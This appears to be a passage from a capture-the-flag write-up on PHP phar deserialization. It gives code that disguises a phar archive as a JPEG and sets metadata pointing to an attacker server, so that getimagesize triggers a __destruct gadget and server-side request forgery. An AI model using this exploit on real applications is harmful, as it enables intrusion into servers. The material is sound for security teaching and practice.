 We can set the metadata of a phar archive with an non-instantiated class. which means using this simple code 

```
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("<?php __HALT_COMPILER(); ? >");

class MainClass {}
$object = new MainClass;
$object->url = 'http://my_server_ip';
$phar->setMetadata($object);
$phar->stopBuffering();
?>
```
we create phar file ,what this means is that if we can do **getimagesize('phar://some/phar.jpg');** then we can trigger a **__destruct** call (Yes we can do that , as the source code use getimagesize to check file mime type )

And in getmime.php there was **MainClass** which call **httpGet($url)** that means if we can call **__destruct** we control **httpGet** :D

And yes we have our famous SSRF attack **ON** guys!

Lets the pwn itw, but wait we need a valid phar file, that means we have to hide the phar as an image :)
```
<?php
$jpeg_header_size =
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");
```